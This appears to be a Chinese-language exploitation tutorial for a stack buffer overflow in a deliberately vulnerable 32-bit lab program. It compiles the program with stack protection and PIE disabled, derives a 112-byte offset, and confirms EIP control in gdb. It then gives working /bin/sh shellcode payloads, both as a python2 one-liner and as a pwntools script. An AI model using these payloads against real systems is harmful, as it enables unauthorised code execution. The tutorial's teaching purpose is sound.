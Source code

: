 

```shell
gcc -m32 -g -fno-stack-protector -no-pie -fno-pie exploit_me_2.c -o exploit_me_2 -z execstack
```

<img width="339" height="103" alt="image" src="https://github.com/user-attachments/assets/029ba60b-e569-4baf-98a2-d8c4538ed447" />

这个程序通过命令行参数传参给strcpy

<img width="656" height="646" alt="image" src="https://github.com/user-attachments/assets/e8f7292e-6e78-4188-b8f4-0e09eeb836c3" />

在这里分配内存空间并且把值复制过去。 计算offset

0x6c + 4 = 112

这个大小足够我们插入shellcode

尝试覆盖EIP

```shell
python2 -c 'print "A" * 108 + "B" * 4 + "C" *4'

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
```

接着，我们来动态调试验证一下：

首先，我们在strcpy的下一条指令下断点：

<img width="654" height="285" alt="image" src="https://github.com/user-attachments/assets/4e0f74db-4ceb-4f19-a21b-fab8756c2037" />

然后通过命令行参数传入：

```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
```

接着，打印内存：

```
x/120x $esp
x/x $ebp
x/x $eip
x/x $ebp-0x6c
```

<img width="798" height="758" alt="image" src="https://github.com/user-attachments/assets/69c1cc62-ca46-4212-bb89-fd49ee35f481" />

发现我们成功控制EBP是对的。 并且拿到 user_input在内存中的起始地址是： `0xbfffee7c`

继续ni单步执行，进行几条指令后，函数return，return后eip的地址指向了我们控制的CCCC值：

<img width="894" height="500" alt="image" src="https://github.com/user-attachments/assets/ea657686-119d-40fd-ae11-669a1accb530" />



```shell
$(python2 -c 'sc=b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; print sc + b"\x90" * (108 - len(sc)) + "B" * 4 +  b"\x7c\xee\xff\xbf"')
```


```python
from pwn import *

context(os='linux', arch='i386')


shellcode = asm(shellcraft.sh())
padding = b'\x90'  * (108 - len(shellcode))


payload = flat([
    padding,
    shellcode,
    b"BBBB",
    p32(0xbfffee7c)
])


with open('ret2sc_32_pl','wb') as f:
    f.write(payload)
```








